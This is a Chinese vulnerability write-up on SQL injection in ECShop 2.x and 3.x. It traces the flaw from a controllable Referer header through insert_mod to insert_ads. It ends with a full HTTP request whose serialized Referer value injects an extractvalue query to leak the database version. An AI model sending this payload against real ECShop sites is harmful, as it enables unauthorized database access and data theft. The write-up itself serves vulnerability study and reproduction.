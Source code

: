 # ECShop <= 2.7.x sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

### 三、复现过程

**漏洞分析**

先看user.php

![](images/15889995637017.png)


`$back_act`变量来源于HTTP_REFERER，我们可控。

assign函数用于在模版变量里赋值

![](images/15889995748557.png)


再看display函数

![](images/15889995816540.png)


读取user_passport.dwt模版文件内容，显示解析变量后的html内容，用_echash做分割，得到`$k`然后交给isnert_mod处理，由于_echash是默认的，不是随机生成的，所以$val内容可随意控制。

再看insert_mod函数

![](images/15889995948554.png)


非常关键的一个地方，这里进行了动态调用

`$val`传入进来用|分割，参数传入进来时需要被序列化

再看include/lib_insert.php中的insert_ads函数

![](images/15889996053523.png)


可以看到这里直接就能注入了

**payload**


```bash
GET /user.php?act=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

![](images/15889996235985.png)


参考链接

https://cloud.tencent.com/developer/article/1333449
